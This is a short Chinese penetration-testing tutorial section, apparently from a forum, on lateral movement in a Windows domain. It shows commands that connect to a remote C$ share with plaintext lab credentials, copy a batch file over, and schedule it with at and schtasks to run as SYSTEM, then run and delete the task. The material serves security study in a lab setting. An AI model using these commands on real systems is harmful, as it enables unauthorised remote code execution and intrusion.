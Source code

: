 # 4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务

> 原文：[https://www.zhihuifly.com/t/topic/3420](https://www.zhihuifly.com/t/topic/3420)

#### 4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务

```
net use \\192.168.19.169\c$ test@123 /user:adtest\jeff1 
copy 1.bat \\192.168.19.169\c$ `net time \192.168.19.169

at \192.168.19.169 1:03 c:\1.bat` 
```

![image](img/632ce21e5a6e8f10daa2e58318a68a53.png)

#### schtasks

由于 at 在新版本的系统中已被弃用，我们需要用 schtasks 替代

![image](img/b8dbff03c0c60310990c12fc02053157.png)

```
schtasks /create /s 192.168.19.177 /u adtest\jeff1 /p test@123 /ru "SYSTEM" /tn test /sc DAILY /tr c:\1.bat /F 
```

创建计划任务，/s 指定远程机器名或 ip 地址，/ru 指定运行任务的用户权限，这里指定 为最高的 SYSTEM，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行，并没什么 实际意义，/tr 指定运行的文件，/F 表示如果指定的任务已经存在，则强制创建任务并抑制警告

![image](img/14fcdf7b0ac9a29926cec49e742575ff.png)

运行任务，其中/i 表示立即运行

```
schtasks /run /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /i 
```

![image](img/d9f825d3ad26244d394ddc9fbfa1d993.png)

![image](img/ab71daab81b108fe983b694d598f6dc9.png)

删除计划任务

```
schtasks /delete /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /f 
```

![image](img/328ce8b2be67f64fa1c07ce98b94d412.png)

![image](img/80ee48f32e0567837152116661e1e521.png)